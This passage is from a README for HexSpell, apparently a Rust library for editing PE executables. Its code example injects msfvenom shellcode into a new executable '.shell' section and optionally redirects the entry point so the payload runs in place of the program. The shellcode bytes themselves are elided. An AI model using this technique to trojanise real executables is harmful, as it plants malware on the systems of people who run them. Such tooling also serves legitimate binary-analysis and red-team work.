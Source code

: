 ### Create new section and injecting a shellcode
Adding code in a section with its own header
```rust
use hexspell::pe::PE;

const SHELLCODE: [u8; 284] = [../*msfvenom shellcode*/..]

fn main(){
    // Open PE from file
    let mut pe = PE::from_file("tests/samples/sample1.exe").expect("[!] Error opening PE file");

    // Create new section header based on basic parameters
    let new_section_header = pe.generate_section_header(
        ".shell", // Name for the new section
        shellcode.len() as u32, // The size of the data it has to store
        section::Characteristics::Code.to_u32() // Basic characteristics for a shellcode
            + section::Characteristics::Readable.to_u32()
            + section::Characteristics::Executable.to_u32(),
    ).expect("[!] Error generating new section header");

    // Add new section header and payload into PE
    pe.add_section(new_section_header, shellcode.to_vec()).expect("[!] Error adding new section into PE");

    // Optional: Update entry point to execute our payload instead of the original code
    pe.header.entry_point.update(&mut pe.buffer, pe.sections.last().unwrap().virtual_address.value).unwrap();

    // Write output to a new file
    pe.write_file("tests/out/modified.exe").expect("[!] Error writing new PE to disk");
}
```

## Support or Contact

Having trouble with HexSpell? Please [submit an issue](https://github.com/M3str3/HexSpell/issues) on GitHub.

## License

HexSpell is distributed under the terms of the MIT License. See [LICENSE](LICENSE) for details.
